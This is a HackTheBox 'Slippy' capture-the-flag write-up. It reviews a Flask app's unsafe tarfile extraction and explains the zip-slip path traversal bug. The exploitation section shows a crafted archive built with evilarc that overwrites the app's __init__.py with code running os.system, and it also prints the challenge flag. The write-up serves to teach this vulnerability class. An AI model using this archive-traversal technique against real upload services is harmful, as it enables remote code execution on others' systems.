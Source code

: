 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - RCE
  - __init__.py
  - code-review
  - flask-debug_mode
  - path-traversal
  - python-code-injection
  - python-tarfile
  - zip-slip
  - flask
---
```

>[!quote]
> *You've found a portal for a firmware upgrade service, responsible for the deployment and maintenance of rogue androids hunting humans outside the tractor city. The question is... what are you going to do about it?*


# Set up

Run the [build-docker.sh](http://build-docker.sh) script

```bash
$ ./build-docker.sh
Error: No such container: web_slippy
Sending build context to Docker daemon  821.2kB
Step 1/11 : FROM python:3-alpine
3-alpine: Pulling from library/python
40e059520d19: Pull complete
4f950178bcec: Pull complete
1d594d4d0bf4: Pull complete
8e36cd7b5f33: Pull complete
0b8007321b2d: Pull complete
...
Successfully tagged web_slippy:latest
2022-03-31 21:15:23,691 INFO Set uid to user 0 succeeded
2022-03-31 21:15:23,695 INFO supervisord started with pid 1
2022-03-31 21:15:24,702 INFO spawned: 'flask' with pid 7
 * Serving Flask app 'application.main' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on all addresses (0.0.0.0)
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://127.0.0.1:1337
 * Running on http://172.17.0.2:1337 (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 757-360-259
2022-03-31 21:15:26,416 INFO success: flask entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
```

# Information Gathering

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe.png)

Application accepts only **tar.gz** files

>[!error]
> This file could not be uploaded, please make sure the file is a valid tar.gz archive!

Uploading a valid **tar.gz** the application unzip the archive’s content and allows to browse files (like a directory listing) 

```xml
tar -czvf file.tar.gz test.txt
```

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%201.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%202.png)

Application code that unzip the archive:

```python
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []

        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue
            
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

# The Bug

- [https://mail.python.org/pipermail/python-dev/2007-August/074290.html](https://mail.python.org/pipermail/python-dev/2007-August/074290.html)
- [https://bugs.python.org/issue21109](https://bugs.python.org/issue21109)
- [https://snyk.io/research/zip-slip-vulnerability](https://snyk.io/research/zip-slip-vulnerability)

The application does not check for path traversal vulnerability, so it’s possible to force the application into parsing a malicious archive containing a file with multiple “../” that will be stored into an arbitrary folder.

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%203.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%204.png)

# Exploitation

Tool to generate malicious archives:

`tar -czvf files.tar.gz --absolute-names '../../../../../tmp/test.txt'`

[evilarc/evilarc.py at master · ptoomey3/evilarc](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)

Related article: [Exploiting insecure file extraction in Python for code execution](https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution)

**util.py**

```python
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
...
```

**run.py**

```python
from application.main import app

app.run(host='0.0.0.0', port=1337, debug=True, use_evalex=False)
```

**exploit.py**

```python
import os
os.system('cp /app/flag* /app/application/static/archives/flag.txt')
```

Generate the malicious **tar.gz** using **evilarc:**

```python
$ python2 evilarc.py __init__.py -f evil.tar.gz -o unix -p app/application/
Creating evil.tar.gz containing ../../../../../../../../app/application/__init__.py
```

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%205.png)

![Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe](../../zzz_res/attachments/Slippy%20377cfe1e5c4948c6b294c3fd26eb13fe%206.png)

# Flag

>[!success]
>`HTB{i_slipped_my_way_to_rce}`

## Video

<iframe width="660" height="415" src="https://www.youtube.com/embed/8eXutSxYhOQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
